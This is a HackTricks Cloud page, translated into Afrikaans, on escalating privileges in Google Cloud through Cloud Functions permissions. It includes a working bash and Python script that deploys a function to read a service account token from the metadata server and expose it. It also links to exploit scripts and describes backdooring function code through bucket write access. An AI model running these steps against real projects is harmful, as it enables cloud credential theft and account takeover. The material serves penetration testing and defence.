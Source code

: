 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Meer inligting oor Cloud Functions:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **'n nuwe Cloud Function met arbitrêre (kwaadaardige) kode skep en dit aan 'n Diensrekening toewys**. Dan, lek die Diensrekening token uit die metadata om voorregte na dit te eskaleer.\
Sommige voorregte om die funksie te aktiveer mag benodig word.

Eksploitasieskripte vir hierdie metode kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) en [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) en die voorafgeboude .zip-lêer kan [hier gevind word](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

'n Aanvaller met hierdie voorregte kan **die kode van 'n Funksie wysig en selfs die diensrekening wat aangeheg is, wysig** met die doel om die token te ekfiltreer.

{% hint style="danger" %}
Om cloud funksies te ontplooi, sal jy ook actAs toestemmings oor die standaard rekenaar diensrekening of oor die diensrekening wat gebruik word om die beeld te bou, benodig.
{% endhint %}

Sommige ekstra voorregte soos `.call` toestemming vir weergawe 1 cloudfunctions of die rol `role/run.invoker` om die funksie te aktiveer mag benodig word.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
As jy die fout `Permission 'run.services.setIamPolicy' denied on resource...` kry, is dit omdat jy die `--allow-unauthenticated` param gebruik en jy nie genoeg toestemming het nie.
{% endhint %}

Die eksploit-skrip vir hierdie metode kan [hier](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) gevind word.

### `cloudfunctions.functions.sourceCodeSet`

Met hierdie toestemming kan jy 'n **ondertekende URL kry om 'n lêer na 'n funksiebucket op te laai (maar die kode van die funksie sal nie verander nie, jy moet dit steeds opdateer)**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

Nie regtig seker hoe nuttig net hierdie toestemming is vanuit 'n aanvaller se perspektief nie, maar dit is goed om te weet.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Gee jouself enige van die vorige **`.update`** of **`.create`** voorregte om op te skaal.

### `cloudfunctions.functions.update`

Slegs met **`cloudfunctions`** toestemmings, sonder **`iam.serviceAccounts.actAs`** sal jy **nie in staat wees om die funksie op te dateer NIE, DUS DIT IS NIE 'N GELDIGE PRIVESC NIE.**

### Lees & Skryf Toegang oor die emmer

As jy lees- en skryftoegang oor die emmer het, kan jy veranderinge in die kode monitor en wanneer 'n **opdatering in die emmer plaasvind, kan jy die nuwe kode met jou eie kode opdateer** sodat die nuwe weergawe van die Cloud Funksie met die ingediende backdoored kode uitgevoer sal word.

Jy kan meer oor die aanval nagaan in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

Echter, jy kan dit nie gebruik om derdeparty Cloud Funksies vooraf te kompromitteer nie, want as jy die emmer in jou rekening skep en dit openbare toestemmings gee sodat die eksterne projek daaroor kan skryf, kry jy die volgende fout:

<figure><img src="../../../.gitbook/assets/image (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
Echter, dit kan gebruik word vir DoS-aanvalle.
{% endhint %}

### Lees & Skryf Toegang oor Artifact Registry

Wanneer 'n Cloud Funksie geskep word, word 'n nuwe docker beeld na die Artifact Registry van die projek gepush. Ek het probeer om die beeld met 'n nuwe een te wysig, en selfs die huidige beeld (en die `cache` beeld) te verwyder, en niks het verander nie, die cloud funksie het voortgegaan om te werk. Daarom, miskien **kan dit moontlik wees om 'n Race Condition aanval te misbruik** soos met die emmer om die docker houer wat uitgevoer sal word te verander, maar **net deur die gestoor beeld te wysig is dit nie moontlik om die Cloud Funksie te kompromitteer nie.**

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
